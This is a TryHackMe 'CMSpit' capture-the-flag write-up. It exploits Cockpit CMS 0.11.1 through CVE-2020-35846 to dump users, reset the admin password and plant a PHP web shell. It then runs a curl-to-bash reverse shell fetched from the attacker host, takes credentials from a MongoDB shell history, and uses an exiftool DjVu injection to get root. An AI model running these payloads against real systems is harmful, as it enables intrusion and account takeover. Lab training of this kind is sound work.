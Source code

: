 # 79 - CMSpit (CockPit CMS exploitation, MongoDB exploitation)

Room Link --> [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
nmap -Pn -n -vvv -T4 10.10.152.31 -p-


```
{% endcode %}

The webserver is running `CockPit CMS version 0.11.1` .

Default credentials didn't work.&#x20;

Some Resources used to answer the Questions:

* [https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/](https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/)
*

### Users Enumeration

Tool link --> [https://github.com/0z09e/CVE-2020-35846](https://github.com/0z09e/CVE-2020-35846)

```bash
dking@dking ~/Downloads$ python3 exploit.py http://10.10.152.31/                                            2 ↵  
[*] Target : http://10.10.152.31
[*] Sending request to dump users.
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
[+] Changing password of admin
[*] Requesting for password reset token
[+] Found token for user admin : rp-247cb14d16593ad15dcaf8483dccc6906557d48fa0ce0
[+] Dumping admin's data
[+] Username : admin
[+] Email : admin@yourdomain.de
[+] Group : admin
[+] Hash : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
[*] Resetting admin's password.
[+] Password reset succcessful
[+] New password of admin : P@ssw0rd
[*] Logging in as admin
[+] Successfully logged in as admin
[+] Bingoo, File has been deployed successfully : 1HpuLW.php
[+] File's location : http://10.10.152.31/1HpuLW.php
[*] Execution example : http://10.10.152.31/1HpuLW.php?cmd=id
[+] Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Good luck for Privilege Escalation :)

```

```
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
```

Password for `admin` has been reset to `P@ssw0rd`&#x20;

We have RCE on this link --> [http://10.10.152.31/1HpuLW.php?cmd=id](http://10.10.152.31/1HpuLW.php?cmd=id)

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Copied bash rev shell into a `shell.sh` in my kali, then host it with python3 web server, setup NC listener then execute:&#x20;

[http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash)

And got shell.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to stux

Goto `/home/stux` dir, there is a `.dbshell` file there it contains history of MongoDB cmds.

```bash
www-data@ubuntu:/home/stux$ cat .dbshell
cat .dbshell
show
show dbs
use admin
use sudousersbak
show dbs
db.user.insert({name: "stux", name: "p4ssw0rdhack3d!123"})
show dbs
use sudousersbak
show collections
db
show
db.collectionName.find()
show collections
db.collection_name.find().pretty()
db.user.find().pretty()
db.user.insert({name: "stux"})
db.user.find().pretty()
db.flag.insert({name: "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}"})
show collections
db.flag.find().pretty()
www-data@ubuntu:/home/stux$ 
```

`stux : p4ssw0rdhack3d!123` .

And we ssh into stux acct.

### Priv Esc to root

`sudo -l` .

```bash
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool

```

Check exiftool version: `exiftool -ver` --> 12.05

Search for the exploit in google.

[https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2](https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2)

```
1. Convert any PDF file to .djvu;
pdf2djvu document.pdf -o fuzz.djvu 

2. create file.dsed
(metadata
        ("\c${system '/bin/bash'}")
.

3. Generate the exploit file
djvumake fuzz.djvu INFO=0,0 BGjp=/dev/null ANTa=file.dsed

4. launch it.
sudo /usr/local/bin/exiftool fuzz.djvu
```

Got root.

